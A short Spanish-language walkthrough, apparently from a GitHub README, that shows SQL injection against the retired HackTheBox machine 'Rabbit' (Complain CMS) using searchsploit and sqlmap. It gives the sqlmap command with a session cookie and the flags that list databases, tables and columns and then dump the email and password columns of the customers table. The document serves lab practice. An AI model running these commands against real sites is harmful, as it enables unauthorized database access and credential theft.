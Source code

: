 Para esto ejemplo se tomare de ejemplo la maquina retirada *Rabbit* de *HackTheBox* lo cual es vulnerable a la injection SQL.

## Uso
Para hacer la extraccion de una db se tiene que realizar por etapas, primero se extrae las *dbs*->*tables*->*columns*->*data*.

Esta maquina cuenta con gestor de contenido *Complain*.

	searchsploit complain
	searchsploit -x php/webapps/42968.txt

Este archivo contiene las instrucciones para hacer la explotacion desde SQLmap.
Aqui empezara a intentar varias inyecciones SQL para descubrir las dbs disponibles.

	sqlmap -u 'http://192.168.1.104/view.php?mod=admin&view=repod&id=plans' --cookie="PHPSESSID=t1bc9vj67odrj3bd096g0rffe0" --dbs --batch --random-agent --dbms=mysql

-dbs *Extrae primero las dbs existentes*
-batch *Omite el las preguntas*
-random-agent *Cambia el user-agent constantemente, (Mejora la taza de exito)*
-dbms=mysql *Aplica inyeccion solo para MySQL*

**Parametros**
-D complain --tables *Selecciona la db & extrae las tablas*
-T tbl_customers --columns *Selecciona la tabla & extrae sus columnas*
-C email,password --dump *Selecciona las columnas & extre la data*
